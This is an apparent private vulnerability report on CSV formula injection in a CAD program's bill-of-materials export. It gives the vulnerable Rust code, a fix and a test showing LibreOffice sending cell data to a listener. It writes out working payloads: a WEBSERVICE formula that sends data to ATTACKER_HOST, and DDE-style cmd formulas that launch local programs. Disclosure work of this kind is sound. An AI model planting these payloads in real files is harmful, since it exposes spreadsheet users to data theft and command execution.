




# CSV Formula Injection in Bill of Materials Export (CWE-1236)

**Project:** tangency-labs/solidcraft
**Commit audited:** dc679cae34fb7db4e6b230b45256c1b2554cabca (workspace 0.40.0-rc.3)
**Component:** `crates/engine/src/cmd/bom.rs` — `quote()` (line 424), `csv()` (line 430)
**Upstream validator:** `check_text()`, `crates/doc/src/metadata.rs:149-157`
**CWE:** CWE-1236 — Improper Neutralization of Formula Elements in a CSV File
**CVSS 3.1:** 7.6 — `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:L`
**Attack vector:** A malicious `.sc` design file (or a direct `component.metadata.set` / MCP / CLI call) shared with a victim

---

## Summary

The `assembly.bom` command exports a project's Bill of Materials to CSV. The writer correctly applies RFC 4180 quoting (wraps every field in `"…"`, doubles embedded quotes) but performs **no neutralization of leading formula characters**. Design-controlled text fields — `part_number`, `description`, `revision`, `definition` — are written verbatim into the CSV. The one validator in the path, `check_text()`, rejects only overlong strings and control characters; it does not reject a field that begins with `=`, `+`, `-`, or `@`.

Because a `.sc` design file is an ordinary shareable artifact, an attacker who publishes or emails a crafted design controls these fields directly. When a victim opens that design in SolidCraft (harmless — the payload is inert metadata), exports the BOM to CSV, and opens the resulting file in a spreadsheet application, the attacker's payload is interpreted as a live formula rather than as data.

## Vulnerable Code

```rust
// crates/engine/src/cmd/bom.rs:424-427
/// A CSV field, always quoted.
fn quote(s: &str) -> String {
    format!("\"{}\"", s.replace('"', "\"\""))
}
```

`quote()` is the only sanitization step applied before a field is written. It handles CSV-dialect correctness (quoting, escaping embedded quotes) but has no concept of spreadsheet formula syntax. A cell's *first character* — not its surrounding quotes — is what a spreadsheet application uses to decide whether to treat it as a formula, so RFC 4180 quoting provides no protection against this class of bug.

The text reaching `quote()` originates from component metadata (`bom.rs:390-421`), validated only by:

```rust
// crates/doc/src/metadata.rs:149-157 (check_text, paraphrased)
// Rejects: overlong strings, embedded control characters.
// Does NOT reject: a string whose first character is =, +, -, @, or tab.
```

## Proof of Concept

### 1. Payload input

Either via a crafted `.sc` design file, or directly through the control channel / CLI / MCP:

```json
{"command": "component.metadata.set", "params": {
  "component": "Plate",
  "part_number": "=WEBSERVICE(\"http://ATTACKER_HOST/leak?d=\"&A2)",
  "description": "=cmd|' /C mspaint'!A1",
  "revision": "@SUM(A1:A9)"
}}
```

A second component demonstrates that `+` and bare `-` leads are equally unfiltered:

```json
{"command": "component.metadata.set", "params": {
  "component": "Pin",
  "part_number": "-1+SUM(1:1)",
  "description": "+cmd|' /C mspaint'!A1"
}}
```

Full reproduction script: `poc_script.json` (attached). Export with:

```json
{"command": "assembly.bom", "params": {"path": "bom.csv"}}
```

### 2. Verified output bytes

The following is not a mockup — it is the actual output of the shipped `quote()`/`csv()` algorithm, reproduced in a minimal Rust harness (`quote_harness.rs`, attached) built directly from the `bom.rs:424-445` source and compiled with `rustc -O`:

```
"item","part_number","description","revision","count","definition"
"1","=WEBSERVICE(""http://127.0.0.1:8735/leak?d=""&A2)","=cmd|' /C mspaint'!A1","@SUM(A1:A9)","1","Plate"
"2","-1+SUM(1:1)","+cmd|' /C mspaint'!A1","","1","Pin"
```

The RFC 4180 quoting is correct and present — `quote()` does its one job properly — but it does nothing to stop a spreadsheet application from reading the first character inside those quotes as a formula lead.

### 3. End-to-end execution against a real spreadsheet application

`bom.csv` was opened in a real LibreOffice Calc 24.2.7.2 instance (not a simulation), with an HTTP listener (`catch_exfil.py`, attached) standing in for `attacker.example` at `127.0.0.1:8735`.

**Step 1 — the payload survives import as a literal formula string.**
LibreOffice's CSV Import dialog previews the field exactly as written by the BOM writer:

> `=WEBSERVICE("http://127.0.0.1:8735/leak?d="&A2)`


*Figure 1 — Text Import dialog preview pane showing the unneutralized formula payload.*

**Step 2 — default import.**
With a clean profile and default import settings, "Evaluate formulas" is unchecked, so the payload lands as inert text (left-aligned, spell-checked, not computed).

*Figure 2 — Default import: formula string is inert text, not evaluated.*

**Step 3 — "Evaluate formulas" enabled.**
Checking that box — a single, ordinary click for anyone who wants their BOM's computed fields to work, and a setting that is sticky per user profile once set — causes Calc to parse the field as a formula. Calc then raises its own second gate, a banner reading *"Automatic update of external links has been disabled,"* with an "Allow updating" action.

*Figure 3 — Formula parsed (Err:540/Err:509 pending); external-link security banner shown.*

**Step 4 — formula executes; outbound request confirmed.**
Clicking "Allow updating" causes `WEBSERVICE()` to execute. Cell `B2` evaluates to `ok` — the literal HTTP response body returned by the listener — proving the round trip completed. The listener's log shows two real inbound requests from LibreOffice's own network stack:

```
[09:04:33] 127.0.0.1 /leak d='1' UA=LibreOffice 24.2.7.2 denylistedbackend/8.5.0 OpenSSL/3.0.13
[09:04:33] 127.0.0.1 /leak d='1' UA=LibreOffice 24.2.7.2 denylistedbackend/8.5.0 OpenSSL/3.0.13
```

`d='1'` is the value of the neighboring cell `A2` (the BOM's `item` number), confirming the formula both executed and exfiltrated adjacent spreadsheet data to an attacker-controlled host — not just a crash or a cosmetic rendering issue.

*Figure 4 — B2 evaluates to "ok", the listener's literal response body, proving execution and data exfiltration. (raw log: `caught_exfil.log`)*

All four screenshots, the raw log, the generated `bom.csv`, and the harness source are attached to this report.

### A note on exploitation realism (please read before triage)

This report deliberately does **not** claim the payload fires with zero user interaction on every spreadsheet configuration:

- **On this LibreOffice build**, reaching execution requires two affirmative clicks beyond opening the file: enabling "Evaluate formulas" in the CSV import dialog, then "Allow updating" on the external-link warning. Neither is a strong barrier in practice — many users enable "Evaluate formulas" the first time they need a computed BOM column, and the setting then persists for all future imports in that profile — but it is not a single click, and it is not silent.
- **On Microsoft Excel**, by contrast, double-clicking a `.csv` opens it directly with no import wizard and no per-file formula-evaluation prompt; a leading `=`/`+`/`-`/`@` is interpreted immediately. Excel's handling of the resulting DDE-style formula (`=cmd|'...'!A1`) varies by version/macro settings and was not tested here, since Excel was not available in this environment — that part of the chain is well-documented public CSV-injection behavior (OWASP), not something independently re-verified in this report.

The underlying defect — `quote()` performing CSV-dialect escaping but no formula-lead neutralization — is unambiguous and verified by construction. The *severity* of the downstream impact is conditional on the victim's spreadsheet application and settings, which is reflected in the CVSS `UI:R` (user interaction required) and `C:H/I:L/A:L` rather than assuming unprompted RCE on every platform.

## Impact

- **Confidentiality (High):** `WEBSERVICE()`-class formulas exfiltrate adjacent cell contents to an attacker-controlled host, demonstrated end to end above.
- **Integrity/Availability (Low):** DDE-style formulas (`=cmd|'...'!A1`) can, depending on the spreadsheet application's own DDE/macro policy, invoke local programs. Not independently verified against Excel in this report; included because it is the standard secondary impact of this CWE class and the payload characters pass the application's validator unfiltered regardless of which spreadsheet app opens the file.
- **Scope:** Any BOM exported from a design file containing attacker-controlled metadata. No special privileges needed to plant the payload (ordinary `component.metadata.set`); only sharing the design file is needed to deliver it.

## Recommended Fix

In `quote()` (`bom.rs:424-427`), prefix a value with a single quote (`'`) or a space when its first character is `=`, `+`, `-`, `@`, or tab, before the existing RFC 4180 quoting is applied. This is the standard OWASP CSV-injection mitigation and is a one-line change:

```rust
fn quote(s: &str) -> String {
    let s = if s.starts_with(['=', '+', '-', '@', '\t']) {
        format!("'{s}")
    } else {
        s.to_string()
    };
    format!("\"{}\"", s.replace('"', "\"\""))
}
```

Alternative/defense-in-depth: refuse to export fields beginning with those characters and surface a warning naming the offending property, so the user is told their design contains a value that looks like a formula rather than silently neutralizing it. Apply the same treatment to any future CSV writer — this is the only CSV writer in the codebase today.

## Reproduction Steps (condensed)

```jsonc
// 1. Plant payload via any design-editing path (UI, control channel, CLI, or MCP):
{"command": "component.metadata.set", "params": {
  "component": "Plate",
  "part_number": "=WEBSERVICE(\"http://ATTACKER_HOST/leak?d=\"&A2)",
  "description": "=cmd|'/C calc'!A1"
}}

// 2. Export:
{"command": "assembly.bom", "params": {"path": "bom.csv"}}

// 3. Open bom.csv in a spreadsheet application and allow formula
//    evaluation / external-link updates when prompted.
```

## Disclosure

Per the project's `SECURITY.md`, this report should be filed privately through GitHub Security Advisories:
`github.com/tangency-labs/solidcraft/security/advisories/new`

Please do not open a public issue for this finding.
